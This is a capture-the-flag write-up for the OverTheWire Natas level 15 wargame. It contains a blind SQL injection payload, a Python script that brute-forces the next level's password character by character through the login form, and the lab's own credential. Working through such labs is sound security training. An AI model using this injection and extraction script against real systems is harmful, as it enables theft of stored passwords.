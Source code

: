 ![image](https://github.com/user-attachments/assets/890b2e18-4423-4558-8858-ad85d5c2d272)
![image](https://github.com/user-attachments/assets/5429ddc6-16c4-4d44-92f0-cf92369eb04f)
This also could be a simple sqli. Now all we have to do is find the right sqli payload.

if we enter natas16 as username, it will return "This user exists".
![image](https://github.com/user-attachments/assets/8463cd3a-cfca-48a0-a68c-1edba663b2cd)

so we have to think about a way to find the password for next level.

natas16" AND BINARY password LIKE "a" #

with this payload, if it returns "This user exists", the first character of the password is 'a' or else, we can try every other alphabets.

we can use burp repeater to brutforce or we can write a python script that does the job.

import requests
import string

url = "http://natas15.natas.labs.overthewire.org"
auth = ("natas15", "SdqIqBsFcz3yotlNYErZSZwblkm0lrvx")

chars = string.ascii_letters + string.digits
found = ""

while len(found) < 32:
    for c in chars:
        payload = f'natas16" AND BINARY password LIKE "{found + c}%" #'
        r = requests.post(url, data={"username": payload}, auth=auth)
        if "This user exists" in r.text:
            found += c
            print(f"[+] Found so far: {found}")
            break

![Uploading image.png…]()
